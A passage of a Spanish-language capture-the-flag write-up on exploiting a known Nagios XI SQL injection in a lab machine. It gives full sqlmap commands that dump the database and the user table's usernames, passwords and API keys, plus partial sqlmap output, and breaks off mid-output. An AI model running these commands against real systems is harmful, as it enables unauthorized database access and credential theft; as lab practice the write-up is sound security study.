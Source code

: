 ### Aprovechando el SLQ injection
Encontrando una vulnerabilidad que hace alusión a sql injectión en un parametro mas sanitizado como esta publicación (https://rootsecdev.medium.com/notes-from-the-field-exploiting-nagios-xi-sql-injection-cve-2023-40931-9d5dd6563f8c)
Asi que probando lo que dice, menciona que en una ruta "nagiosxi/admin/banner_message-ajaxhelper.php" tiene un parametro id mal sanitizado como "action=acknowledge_banner_message&id=*"

![](monitored8.jpg)

Efectivamente, esto parece ser una inyeccion sql basado en errores, se la podria hacer manualmente pero para ahorrar tiempo prefiero pasarlo a sqlmap (tambien porque no sabria como hacerla manualmente).
Resumiendo lo que hice, primero coloque la consulta para sacar la bdd.
~~~bash
sqlmap -u 'https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php' --cookie='nagiosxi=o5n5922s0tn7e2pkstsbqc7jgo' --data='action=acknowledge_banner_message&id=3' -p "id" --level 5 --risk 3 --dump
~~~
El proceso tarda bastante, asi que toca esperar un buen tiempo, con ello se saco la dbb, las tablas y algunos parametros importantes, por lo que directamente se enfoco en sacar datos importantes de la tabla xi_users.
~~~bashsqlmap -u 'https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php' --cookie='nagiosxi=o5n5922s0tn7e2pkstsbqc7jgo' --data='action=acknowledge_banner_message&id=3' -p "id" --level 5 --risk 3 --dump -D nagiosxi -T xi_users -C username,password,name,api_key
        ___
       __H__                                                                                                                                                
 ___ ___[.]_____ ___ ___  {1.9.4#stable}                                                                                                                    
|_ -| . [']     | .'| . |                                                                                                                                   
|___|_  [,]_|_|_|__,|  _|                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 19:24:05 /2025-10-25/

[19:24:05] [INFO] resuming back-end DBMS 'mysql' 
[19:24:05] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (POST)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
~~~